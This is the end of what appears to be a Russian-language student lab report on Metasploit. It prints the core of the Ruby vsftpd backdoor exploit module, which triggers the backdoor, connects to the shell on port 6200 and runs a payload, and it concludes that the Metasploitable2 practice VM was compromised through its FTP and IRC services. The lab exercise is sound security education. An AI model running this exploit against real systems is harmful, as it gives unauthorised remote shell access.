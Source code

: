 \begin{lstlisting}[language=ruby]
    if resp =~ /^530 /
      print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
      disconnect
      return
    end

    if resp !~ /^331 /
      print_error("This server did not respond as expected: #{resp.strip}")
      disconnect
      return
    end

    sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

    # Do not bother reading the response from password, just try the backdoor
    nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_good("Backdoor service has been spawned, handling...")
      handle_backdoor(nsock)
      return
    end

    disconnect

  end

  def handle_backdoor(s)

    s.put("id\n")

    r = s.get_once(-1, 5).to_s
    if r !~ /uid=/
      print_error("The service on port 6200 does not appear to be a shell")
      disconnect(s)
      return
    end

    print_good("UID: #{r.strip}")

    s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
    handler(s)
  end

end
\end{lstlisting}

\section{Выводы}

Metasploit - огромный набор эксплоитов и инфраструктура для их использования. В ходе работы был изучен консольный интерфейс msfadmin и графический интерфейс Armitage. 

Было совершено проникновение в виртуальную машину Metasploitable2 с помощью уязвимостей в сервисах IRC и FTP.